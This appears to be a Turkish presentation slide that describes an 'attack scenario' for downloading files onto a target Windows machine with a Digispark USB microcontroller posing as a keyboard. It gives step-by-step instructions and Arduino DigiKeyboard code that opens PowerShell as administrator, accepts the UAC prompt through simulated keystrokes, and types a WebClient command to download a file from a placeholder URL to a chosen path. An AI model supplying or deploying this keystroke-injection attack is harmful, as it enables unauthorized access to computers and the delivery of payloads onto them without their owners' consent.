

# Hedef sistem üzerinde dosya indirme
Hedef sistem üzerinde dosya indirebilmek için yapılabilecek saldırı senaryosu ve komutlar aşağıdaki gibidir;
Win+R tuşuna basıp çalıştır penceresini aç.
Açılan pencereye powershell yaz.
Yönetici olarak çalıştırmak için CTRL+SHIFT+ENTER tuşla.
Açılacak pencerede sol ok tuşuyla evet’e getir ve enter’a bas.
Powershellde dosya indirebilmek için scriptini gir ve enter’a bas.
Yukarıdaki senaryo oluşturduktan sonra aşağıdaki gibi komutlar sırasıyla yazılıp mikrodenetleyiciye yüklenmelidir.

DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // Windows + R kombinasyonunun tuşla
  DigiKeyboard.delay(2000);  // 2 saniye bekle
  DigiKeyboard.print("powershell"); // Açılan Çalıştır penceresine powershell yaz.
   DigiKeyboard.delay(2000);  // 2 saniye bekle
  DigiKeyboard.sendKeyStroke(KEY_ENTER,MOD_CONTROL_LEFT|MOD_SHIFT_LEFT); // powershell’i yönetici olarak çalıştırmak için
  DigiKeyboard.delay(2000);
 DigiKeyboard.sendKeyStroke(KEY_LEFT_ARROW); // sol ok tuşuna bas.
 DigiKeyboard.delay(2000);
 DigiKeyboard.sendKeyStroke(KEY_ENTER); //Enter’a bas.
 DigiKeyboard.delay(2000);
DigiKeyboard.print("$url = ‘indirilecek dosyanın URL ini gir. '; $output = 'hedef yolu belirt'; $start_time = Get-Date;
$wc = New-Object System.Net.WebClient;
$wc.DownloadFile($url, $output);
Write-Output 'Time taken: $((GetDate).Subtract($start_time).Seconds) second(s)';");
DigiKeyboard.sendKeyStroke(KEY_ENTER); //Enter’a bas.